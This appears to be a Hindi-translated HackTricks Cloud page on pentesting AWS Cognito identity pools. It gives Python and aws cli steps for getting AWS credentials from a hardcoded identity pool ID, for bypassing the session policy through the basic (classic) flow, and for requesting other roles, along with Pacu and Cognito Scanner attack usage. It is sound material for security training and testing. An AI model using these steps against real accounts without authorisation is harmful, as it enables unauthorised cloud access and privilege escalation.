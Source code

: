 # कोग्निटो पहचान पूल

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

## मौलिक जानकारी

पहचान पूल एक महत्वपूर्ण भूमिका निभाते हैं जिसके द्वारा आपके उपयोगकर्ताओं को **अस्थायी प्रमाणपत्र** प्राप्त करने की सुविधा प्रदान की जाती है। ये प्रमाणपत्र Amazon S3 और DynamoDB जैसी विभिन्न AWS सेवाओं तक पहुँचने के लिए आवश्यक हैं। पहचान पूल की एक महत्वपूर्ण विशेषता यह है कि इसमें अनाम अतिथि उपयोगकर्ता और उपयोगकर्ता प्रमाणीकरण के लिए कई पहचान प्रदाताओं का समर्थन है। समर्थित पहचान प्रदाताओं में शामिल हैं:

- अमेज़न कोग्निटो उपयोगकर्ता पूल
- फेसबुक, गूगल, अमेज़न लॉगिन और एप्पल साथ में साइन इन जैसे सोशल साइन-इन विकल्प
- OpenID Connect (OIDC) के अनुपालन करने वाले प्रदाताएँ
- SAML (सुरक्षा दावा चिह्नित भाषा) पहचान प्रदाताएँ
- डेवलपर प्रमाणीकृत पहचानें
```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
IdentityPoolId=identity_pool_id,
Roles={
'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
}
)

# Print the response from AWS
print(response)
```
### कोग्निटो सिंक

आईडेंटिटी पूल सत्रों को उत्पन्न करने के लिए, आपको पहले **आईडेंटिटी आईडी उत्पन्न करनी** होगी। यह आईडेंटिटी आईडी **उस उपयोगकर्ता के सत्र की पहचान** है। ये पहचान 20 डेटासेट्स तक हो सकती है जिनमें 1MB तक कुंज-मूल्य जोड़े जा सकते हैं।

यह **उपयोगी है ताकि उपयोगकर्ता की जानकारी को संभाला जा सके** (जो हमेशा एक ही आईडेंटिटी आईडी का उपयोग करेगा)।

इसके अतिरिक्त, सेवा **कोग्निटो-सिंक** वह सेवा है जो इस जानकारी को **प्रबंधित और समकालिक करने की अनुमति देती है** (डेटासेट्स में, स्ट्रीम्स में जानकारी भेजने और एसएनएस्स मैसेज में...)।

### पेंटेस्टिंग के लिए उपकरण

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), एडब्ल्यूएस शोषण ढांचा, अब "cognito\_\_enum" और "cognito\_\_attack" मॉड्यूल शामिल करता है जो खाते में सभी कोग्निटो संपत्तियों की जाँच को स्वचालित करते हैं और कमजोर विन्यास, पहुंच नियंत्रण के लिए उपयोग किए जाने वाले उपयोगकर्ता गुण, आदि को ध्वजित करते हैं, और उपयोगकर्ता निर्माण (एमएफए समर्थन सहित) और संशोधन उच्चता स्वचालित करते हैं जो संशोधन योग्य अनुकूल गुण, उपयोगी पूल क्रेडेंशियल्स, आईडी टोकन्स में अस्वीकार्य भूमिकाएँ, आदि पर आधारित है।

मॉड्यूल के कार्यों का विवरण देखने के लिए [ब्लॉग पोस्ट](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) का भाग 2 देखें। स्थापना निर्देशों के लिए मुख्य [Pacu](https://github.com/RhinoSecurityLabs/pacu) पेज देखें।

#### उपयोग

उपयोगकर्ता निर्माण का प्रयास करने और एक दिये गए आईडेंटिटी पूल और उपयोगकर्ता पूल क्लाइंट के खिलाफ सभी प्रिवेसेक वेक्टर्स के खिलाफ cognito\_\_attack उपयोग का नमूना:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
वर्तमान AWS खाते में दिखाई देने वाले सभी उपयोगकर्ता पूल, उपयोगकर्ता पूल क्लाइंट, पहचान पूल, उपयोगकर्ता आदि इकट्ठा करने के लिए नमूना cognito\_\_enum उपयोग:
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) एक CLI टूल है जो पायथन में है और जो Cognito पर विभिन्न हमले को लागू करता है, जिसमें अवांछित खाता निर्माण और पहचान पूल उन्नति शामिल है।

#### स्थापना
```bash
$ pip install cognito-scanner
```
#### उपयोग
```bash
$ cognito-scanner --help
```
For more information check https://github.com/padok-team/cognito-scanner

## आईएएम रोल्स तक पहुंचना

### अअधिकृत

किसी हमलावर को एक Cognito ऍप में एडब्ल्यूएस प्रमाणपत्र प्राप्त करने के लिए जो केवल एक अअधिकृत उपयोगकर्ता के रूप में आईडेंटिटी पूल आईडी को जानने की आवश्यकता है, और यह आईडी इसे उपयोग करने के लिए वेब/मोबाइल **ऍप्लिकेशन** में **हार्डकोड** होनी चाहिए। एक आईडी इस तरह दिखती है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (इसे ब्रूटफोर्स नहीं किया जा सकता है)।

{% hint style="success" %}
**आईएएम Cognito अअधिकृत रोल जिसे** डिफ़ॉल्ट रूप से बुलाया जाता है, उसका नाम होता है `Cognito_<आईडेंटिटी पूल नाम>Unauth_Role`
{% endhint %}

अगर आपको किसी आईडेंटिटी पूल आईडी का हार्डकोड मिलता है और यह अअधिकृत उपयोगकर्ताओं को अनुमति देता है, तो आप निम्नलिखित के साथ एडब्ल्यूएस प्रमाणपत्र प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli कमांड** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
ध्यान दें कि डिफ़ॉल्ट रूप से एक अनधिकृत कोग्निटो **उपयोगकर्ता किसी भी अनुमति नहीं रख सकता, भले ही यह नीति के माध्यम से निर्धारित की गई हो**। निम्नलिखित खंड की जाँच करें।
{% endhint %}

### Enhanced vs Basic Authentication flow

पिछले खंड में **डिफ़ॉल्ट एन्हांस्ड प्रमाणीकरण फ़्लो** का पालन किया गया था। यह फ़्लो एक **प्रतिबंधक** [**सत्र नीति**](../../aws-basic-information/#session-policies) को आईएएम रोल सत्र जिनरेट किया गया। यह नीति केवल इस सत्र को [**इस सूची से सेवाओं का उपयोग करने की अनुमति देगी**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (भले ही रोल को अन्य सेवाओं तक पहुंच हो).

हालांकि, इसे छलने का एक तरीका है, अगर **आईडेंटिटी पूल में "बेसिक (क्लासिक) फ़्लो" सक्षम है**, तो उपयोगकर्ता उस फ़्लो का उपयोग करके एक सत्र प्राप्त कर सकेगा जिसमें **उस प्रतिबंधक सत्र नीति नहीं होगी**।

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
यदि आपको यह **त्रुटि** मिलती है, तो यह इसलिए है कि **मूल फ्लो एनेबल नहीं है (डिफ़ॉल्ट)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAM क्रेडेंशियल्स के सेट होने पर आपको [जांचना चाहिए कि आपके पास कौनसा एक्सेस है](../../#whoami) और [विशेषाधिकारों को बढ़ाने](../../aws-privilege-escalation/) का प्रयास करें।

### प्रमाणित

{% hint style="info" %}
ध्यान रखें कि **प्रमाणित उपयोगकर्ताओं** को संभावित रूप से **विभिन्न अनुमतियाँ** प्रदान की जाएंगी, इसलिए यदि आप **ऐप्लिकेशन के अंदर साइन अप कर सकते हैं**, तो उसे करने का प्रयास करें और नए क्रेडेंशियल्स प्राप्त करें।
{% endhint %}

यहाँ **प्रमाणित उपयोगकर्ताओं के लिए उपलब्ध भूमिकाएँ** भी हो सकती हैं जो **आईडेंटिटी पूल तक पहुंचने वाले प्रमाणित उपयोगकर्ताओं** के लिए उपलब्ध हों।

इसके लिए आपको **आईडेंटिटी प्रदाता** तक पहुंच होनी चाहिए। यदि वह एक **कोग्निटो उपयोगकर्ता पूल** है, तो शायद आप डिफ़ॉल्ट व्यवहार का दुरुपयोग करके **नया उपयोगकर्ता खुद** बना सकते हैं।

{% hint style="success" %}
**आईएएम कोग्निटो प्रमाणित भूमिका जो आईडेंटिटी पूल के माध्यम से बनाई गई है**, उसका डिफ़ॉल्ट नाम है `Cognito_<आईडेंटिटी पूल नाम>Auth_Role`
{% endhint %}

वैसे, **निम्नलिखित उदाहरण** की उम्मीद है कि आप पहले से ही एक **कोग्निटो उपयोगकर्ता पूल** में लॉग इन कर चुके हैं जिसका उपयोग आईडेंटिटी पूल तक पहुंचने के लिए किया गया है (यह न भूलें कि अन्य प्रकार के आईडेंटिटी प्रदाताओं को भी कॉन्फ़िगर किया जा सकता है)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;आईडेंटिटी_पूल_आईडी> \
--logins cognito-idp.&#x3C;क्षेत्र>.amazonaws.com/&#x3C;आपका_उपयोगकर्ता_पूल_आईडी>=&#x3C;आईडी_टोकन>

# पिछले कमांड के प्रतिक्रिया से identity_id प्राप्त करें
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;आईडेंटिटी_आईडी> \
--logins cognito-idp.&#x3C;क्षेत्र>.amazonaws.com/&#x3C;आपका_उपयोगकर्ता_पूल_आईडी>=&#x3C;आईडी_टोकन>


# IdToken में उपयोगकर्ता के पास एक्सेस किसी भी भूमिकाओं को प्राप्त करने के लिए हो सकता है क्योंकि उपयोगकर्ता पूल समूहों के कारण
# --custom-role-arn का उपयोग करके विशेष भूमिका के लिए क्रेडेंशियल प्राप्त करें
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;आईडेंटिटी_आईडी> \
<strong>    --custom-role-arn &#x3C;भूमिका_आर्न> \
</strong>    --logins cognito-idp.&#x3C;क्षेत्र>.amazonaws.com/&#x3C;आपका_उपयोगकर्ता_पूल_आईडी>=&#x3C;आईडी_टोकन>
</code></pre>

{% hint style="warning" %}
**यह संभावना है कि आईडेंटिटी प्रदाता पर विभिन्न IAM भूमिकाएँ कॉन्फ़िगर की जा सकती हैं** जिस प्रयोक्ता को लॉग इन किया जा रहा है या फिर केवल **उपयोक्ता के आधार पर** (दावों का उपयोग करके)। इसलिए, यदि आपके पास एक ही या अलग-अलग प्रदाताओं के माध्यम से विभिन्न उपयोगकर्ताओं तक पहुंच है, तो सभी का आईएएम भूमिकाओं तक लॉग इन करने और पहुंचने का प्रयास करना लायक हो सकता है।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फ़ॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें PRs के माध्यम से** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}
